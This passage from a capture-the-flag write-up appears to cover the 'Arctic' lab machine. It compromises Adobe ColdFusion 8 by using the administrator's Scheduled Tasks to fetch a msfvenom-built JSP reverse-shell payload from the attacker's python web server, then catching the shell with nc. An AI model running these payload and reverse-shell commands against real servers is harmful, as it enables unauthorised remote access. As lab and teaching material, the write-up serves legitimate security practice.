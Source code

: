 Now, there is the other exploit which is written in **Python** and allows to execute commands remotely. By analyzing the code I can deduce from it, that it is uploading a file with **.jsp** extension but I do not know well in what path, so I investigate a little on the **Internet** and I find in **Github** a project where it exploits an **[“Improper handling of file uploads in Adobe ColdFusion 8”](https://github.com/0xDTC/Adobe-ColdFusion-8-RCE-CVE-2009-2265){:target="_blank"}**, so I can do it manually. In one of the server configuration tools I find very important information about the mapping of **ColdFusion** paths, which will help me to perform the exploit later. Now I just need to create a malicious task with the **Debugging & Logging** tool, which allows me to save the task to a file and save it to the path I found before.

```bash
searchsploit adobe coldfusion 8
searchsploit -x cfm/webapps/50057.py
# "/CFIDE/scripts/ajax/FCKeditor/filemanager/connectors/cfm/upload.cfm?Command=FileUpload&Type=File&CurrentFolder="

# http://10.10.10.11:8500/CFIDE/administrator/index.cfm
# Server Settings > Mappings > Logical Path: /CFIDE  	Directory Path:  C:\ColdFusion8\wwwroot\CFIDE
# Debugging & Logging > Scheduled Tasks
```

<br />
<img src="{{ site.img_path }}/arctic_writeup/Arctic_18.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/arctic_writeup/Arctic_19.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/arctic_writeup/Arctic_20.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/arctic_writeup/Arctic_21.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

To access the target machine, first I will create a malicious **.jsp** file with `msfvenom` in charge of sending a **Reverse Shell**, I configure a local server with `python` and create the **Scheduled Task** in **ColdFusion**, when I send the task to the server I receive the file request on my machine. I observe that the task was created successfully and the malicious file I can already find it on the server, now it is time to open a local port with `nc` waiting for the remote connection that I receive immediately when accessing the file, I am already in the system.

```bash
msfvenom -l payloads | grep jsp
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.22 LPORT=443 -f raw -o pwn3d.jsp
python3 -m http.server 80

# http://10.10.10.11:8500/CFIDE/          new file!!!

rlwrap -cAr nc -nlvp 443

whoami
hostname
ipconfig
```
